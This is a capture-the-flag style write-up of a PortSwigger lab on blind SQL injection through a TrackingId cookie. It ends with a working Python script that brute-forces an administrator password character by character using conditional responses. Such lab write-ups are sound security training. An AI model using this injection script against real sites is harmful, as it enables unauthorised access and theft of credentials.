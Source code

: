 ```yaml
---
description: >-
  https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses
---
```


# Blind SQL injection with conditional responses

**Level:** <mark style="color:blue;">**Practitioner**</mark>

<figure><img src="../../../../../.gitbook/assets/BlindSQLinjectionwithconditionalresponses1.png" alt=""><figcaption></figcaption></figure>

* This is other type of SQL injection.
* This time the server will not response with any SQL error, and we need to use other ways to see if its vulnerable.
* The challenge is saying that the SQLi is in a cookie called **TrackingId**.
* We need to be aware of the **Welcome Back!**.

<figure><img src="../../../../../.gitbook/assets/BlindSQLinjectionwithconditionalresponses2.png" alt=""><figcaption></figcaption></figure>

* First, I start with a simple injection that will be **True**.
* So that's why we see the **Welcome Back!** because it does not interfere with nothing in the query.
* Now be aware of the **Welcome Back!** on the response.

<figure><img src="../../../../../.gitbook/assets/BlindSQLinjectionwithconditionalresponses3.png" alt=""><figcaption></figcaption></figure>

* This time we put that **2=1** so because it will be **False**, it will not response with the **Welcome Back!**
* We can filter by the content length too if you want to.

<figure><img src="../../../../../.gitbook/assets/BlindSQLinjectionwithconditionalresponses4.png" alt=""><figcaption></figcaption></figure>

* So, let's start injecting in this phase our query to retrieve the administrator password from the tables and columns that the challenge gives us at the start.
* Let's use some logic to retrieve the password.
* Here we're seeing that if in the column password the first character is an **"a", it will response back with the Welcome Back!** This time the first character is not an **"a".**

<figure><img src="../../../../../.gitbook/assets/BlindSQLinjectionwithconditionalresponses5.png" alt=""><figcaption></figcaption></figure>

* This time the first character in the password column is a **6**.

Use this script to retrieve the information from the password column:

```python
#!/usr/bin/python3

from pwn import *
import requests, sys, signal, time, string


def def_handler(sig, frame):
	print("\n[!]Exiting...\n")
	sys.exit(1)

#Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = '<URL>'
characters = string.ascii_lowercase + string.digits

def makeRequest():

	password=""

	p1 = log.progress("Brute Force")
	p1.status("Starting Brute Force")

	time.sleep(2)

	p2 = log.progress("Password")


	for position in range(1, 21):


		for character in characters:


			cookies = {
				'TrackingId':"hCjf3BafVXQSVHVx' and (select substring(password,%d,1) from users where username = 'administrator' )='%s" % (position, character),
				'session':'8CbmAU6otnLblx3famuzLMRxOguBxgiq'
			}

			p1.status(cookies['TrackingId'])
			r = requests.get(main_url, cookies=cookies)

			if "Welcome back!" in r.text:
				password += character
				p2.status(password)
				break



if __name__ == '__main__':

	makeRequest()

```
